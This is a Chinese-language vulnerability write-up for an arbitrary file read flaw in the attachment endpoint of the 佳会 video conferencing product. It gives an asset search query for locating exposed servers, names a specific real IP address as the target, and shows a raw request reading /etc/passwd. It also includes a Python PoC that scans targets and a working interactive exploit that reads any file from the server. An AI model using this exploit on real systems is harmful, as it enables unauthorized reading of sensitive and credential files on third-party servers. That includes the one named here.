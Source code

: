 # 佳会视频会议attachment接口存在任意文件读取漏洞

## 一、资产搜索

```
body="/user/get_app_scheme?site_id="
```

## 二、网站测试

```
 https://47.96.78.168:11000
```

## 三、验证漏洞

构造的数据包

```
GET /attachment?file=/etc/passwd HTTP/1.1
Host: 47.96.78.168:11000
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-CN;q=0.8,en;q=0.7
Priority: u=0, i
Connection: close
```

![image-20240903213002256](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903213002256.png)

## 四、POC

```
def poc(target):
    payload = "/attachment?file=/etc/passwd"
    res1 = requests.get(target,verify=False)
    try:
        if res1.status_code == 200:
            res2 = requests.get(target+payload,verify=False)
            if "root" in res2.text:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"该网站[+]{target}存在任意文件读取漏洞\n")
                    return True
                print(f"该网站[+]{target}存在任意文件读取漏洞")
            else:
                print(f"该网站[+]{target}不存在任意文件读取漏洞")
        else:
            print("访问超时，请重试")
    except Exception as e:
        print(e)
```

## 五、EXP

```
    while True:
        payload = "/attachment?file="
        content = input("请输入要查看的文件，从/目录开始输入(q退出)\n>>>>>>>>>>>>>>>>")
        if content == "q":
            exit()
        res1 = requests.get(target, verify=False)
        if res1.status_code == 200:
            res2 = requests.get(target + payload + content, verify=False)
            if "DOCTYPE" in res2.text:
                print(f"文件不存在")
            else:
                print(res2.text)
```

## 六、测试结果

![image-20240903213735883](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903213735883.png)

![image-20240903213833603](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903213833603.png)